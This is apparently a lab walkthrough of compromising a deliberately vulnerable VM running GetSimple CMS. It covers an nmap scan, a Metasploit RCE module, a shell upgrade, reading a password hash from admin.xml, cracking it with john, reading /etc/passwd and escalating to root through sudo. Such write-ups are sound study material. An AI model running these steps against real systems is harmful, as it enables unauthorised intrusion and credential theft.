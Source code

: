 # Simple Walkthrough

## Enumeration

Let's start with a nmap scan

```
┌──(deathflash㉿kali)-[~/simple-vvm]
└─$ nmap -sC -sV -oN scan.txt 192.168.70.130
Starting Nmap 7.94 ( https://nmap.org ) at 2023-06-16 02:48 EDT
Nmap scan report for 192.168.70.130
Host is up (0.0010s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 42:da:1f:3c:be:8b:ed:1a:8e:11:be:1a:bb:7b:52:db (RSA)
|   256 7d:a2:5f:13:9f:72:1d:d7:a3:77:04:19:d5:df:06:7e (ECDSA)
|_  256 f4:b6:d6:9b:3d:72:aa:de:43:ea:e2:96:76:d4:06:0a (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/admin/
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Welcome to GetSimple! - Simple
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.47 seconds
```

We see only two ports open SSH (22) and HTTP (80)

GetSimpleCMS is running on port 80

![](https://i.imgur.com/8UgBHtt.png)

## Exploitation

Searching for exploits with `searchsploit`

![](https://i.imgur.com/x885tSl.png)

Let's use Metasploit's Unauthenticated Remote Code Execution module

`set rhosts <target-ip>`

![](https://i.imgur.com/Il0sI4I.png)

We have code execution as `www-data`

```
meterpreter > shell
Process 2201 created.
Channel 2 created.
python3 -c 'import pty;pty.spawn("/bin/bash");'
www-data@simple:/var/www/html/theme$
```

## Escalation

Directory enumeration reveals a username admin and password hash in `/var/www/html/data/users/admin.xml`

```xml
meterpreter > cat /var/www/html/data/users/admin.xml
<?xml version="1.0"?>
<item><USR>admin</USR><PWD>c5a6f585d187b5f906d5d442e1673cb2af04316c</PWD><EMAIL>9tfx@deathflash.in</EMAIL><HTMLEDITOR>1</HTMLEDITOR><TIMEZONE/><LANG>en_US</LANG></item>
```

Crack the password hash with `john`

![](https://i.imgur.com/EEh8d7E.png)

Check the available users on the machine

```
www-data@simple:/var/www/html/theme$ cat /etc/passwd | grep sh
cat /etc/passwd | grep sh
root:x:0:0:root:/root:/bin/bash
simple:x:1001:1001::/home/simple:/bin/sh
www-data@simple:/var/www/html/theme$

www-data@simple:/var/www/html/theme$ ls -l /home                 
ls -l /home
total 8
drwxr-xr-x 2 simple  simple  4096 Jun 16 06:31 simple
```

We see a user called `simple`  let's try the password `simple1` 

![](https://i.imgur.com/IUJuxow.png)

The user is part of `sudo` group leading to code execution as `root`

![](https://i.imgur.com/wLy8eWC.png)

## References

- [GetSimple CMS v3.3.16 - Remote Code Execution (RCE)](https://www.exploit-db.com/exploits/51475)